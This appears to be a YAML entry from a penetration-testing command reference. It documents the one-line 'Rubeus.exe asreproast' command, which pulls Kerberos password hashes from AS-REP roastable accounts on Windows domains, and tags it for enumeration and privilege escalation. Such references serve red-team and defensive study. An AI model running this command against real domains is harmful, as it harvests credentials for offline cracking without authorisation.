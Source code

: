 ```yaml
---
description: |
  Get Kerberos password hashes from all AS-REP roastable users

  Command Reference:


command: |
  Rubeus.exe asreproast
items:
  - Shell
target: |
  - Windows_target
OS:
  - Windows
environment: |
  - Local
  - Network
command_types:
  - Host_Enumeration
  - Privilege_Escalation
services:
  - Kerberos
references:
  - https://github.com/GhostPack/Rubeus
---
```

